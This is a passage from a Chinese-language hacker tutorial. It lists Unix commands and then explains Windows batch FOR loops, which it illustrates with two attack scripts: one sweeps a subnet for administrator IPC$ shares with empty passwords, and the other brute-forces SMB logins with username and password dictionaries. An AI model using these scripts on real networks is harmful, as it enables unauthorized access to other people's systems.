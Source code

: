 passwd 更改密码

history 查看自己下过的命令

ps 显示进程状态

kill 停止某进程

gcc 黑客通常用它来编译 C 语言写的文件

su 权限转换为指定使用者

telnet IP telnet 连接对方主机（同 win2K），当出现 bash$时就说明连接成功。

ftp ftp 连接上某服务器（同 win2K）

批处理命令与变量

1：for 命令及变量 基本格式

FOR /参数 %variable IN (set) DO command [command_parameters] %variable:指定一个单一字母可替换的参数，如：%i ，而指定一个变量则用：%%i ，而调用变量时用：%i% ，变量是区分大小写的（%i 不等于 %I）。

批处理每次能处理的变量从%0—%9 共 10 个，其中%0 默认给批处理文件名使用，%1 默认为使用此批处理时输入的的第一个值，同理：%2—%9 指输入的第 2-9 个值；例：net use ipipc$ pass /user:user 中 ip 为%1,pass 为%2 ,user 为%3

(set):指定一个或一组文件，可使用通配符，如：(D:user.txt)和(1 1 254)(1 -1 254),{ “(1 1 254)”第一个"1"指起始值，第二个"1"指增长量，第三个"254"指结束值，即：从 1 到 254；“(1 -1 254)”说明：即从 254 到 1 }

command：指定对第个文件执行的命令，如：net use 命令；如要执行多个命令时，命令这间加：& 来隔开

command_parameters：为特定命令指定参数或命令行开关

IN (set)：指在(set)中取值；DO command ：指执行 command

参数：/L 指用增量形式{ (set)为增量形式时 }；/F 指从文件中不断取值，直到取完为止{ (set)为文件时，如(d:pass.txt)时 }。

用法举例：

[@echo ](/echo) off

echo 用法格式：test.bat _._.\* > test.txt

for /L %%G in (1 1 254) do echo %1.%%G >>test.txt & net use %1.%%G /user:administrator | find "命令成功完成" >>test.txt

存为 test.bat 说明：对指定的一个 C 类网段的 254 个 IP 依次试建立 administrator 密码为空的 IPC$连接，如果成功就把该 IP 存在 test.txt 中。

/L 指用增量形式（即从 1-254 或 254-1）；输入的 IP 前面三位：_._.\*为批处理默认的 %1；%%G 为变量(ip 的最后一位）；& 用来隔开 echo 和 net use 这二个命令；| 指建立了 ipc$后，在结果中用 find 查看是否有"命令成功完成"信息；%1.%%G 为完整的 IP 地址；(1 1 254) 指起始值，增长量，结止值。

[@echo ](/echo) off

echo 用法格式：ok.bat ip

FOR /F %%i IN (D:user.dic) DO smb.exe %1 %%i D:pass.dic 200

存为：ok.exe 说明：输入一个 IP 后，用字典文件 d:pass.dic 来暴解 d:user.dic 中的用户密码，直到文件中值取完为止。%%i 为用户名；%1 为输入的 IP 地址（默认）。

七：

2：if 命令及变量 基本格式
